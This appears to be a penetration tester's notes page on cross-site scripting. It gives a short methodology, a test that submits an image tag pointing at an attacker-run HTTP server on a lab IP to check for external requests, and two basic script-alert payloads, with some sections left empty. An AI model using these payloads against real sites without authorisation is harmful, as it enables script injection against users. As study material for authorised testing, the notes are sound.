 ```yaml
---
description: Cross-site Scripting
icon: spider-black-widow
---
```


# XSS

{% hint style="info" %}
## <mark style="color:purple;">Methodology</mark>

* [ ] <mark style="color:purple;">Look if any value you control is being reflected in the</mark> <mark style="color:orange;">**`HTML`**</mark> <mark style="color:purple;">or used by</mark> <mark style="color:orange;">**`Javascript`**</mark> <mark style="color:purple;">code.</mark>
* [ ] <mark style="color:purple;">**Find the context**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">where it's</mark> <mark style="color:orange;">**`reflected/used`**</mark><mark style="color:purple;">.</mark>

***

### <mark style="color:purple;">Reflected XSS</mark>

*


{% endhint %}

<details><summary><mark style="color:red;"><strong><code>XSS + Arbitrary File Upload</code></strong></mark></summary></details>



{% hint style="info" %}
### <mark style="color:purple;">Test Filters</mark>

#### <mark style="color:red;">`External Requests`</mark>

* <mark style="color:purple;">Test if the web application allows the inclusion of resources from external servers:</mark>
  1. <mark style="color:purple;">Spawn a</mark> <mark style="color:orange;">**`HTTP`**</mark> <mark style="color:purple;">server</mark>  <mark style="color:orange;">**`python3 -m http.server 80`**</mark>
  2. <mark style="color:purple;">Submit the payload and wait for the request</mark> <mark style="color:orange;">**`<img src='http://10.10.14.30/test.jpg' />`**</mark>

***

#### <mark style="color:red;">`Code Execution`</mark>

```javascript
<script>alert('XSS')</script>
```

```javascript
<img src="x` `<script>javascript:alert(1)</script>"` `>
```
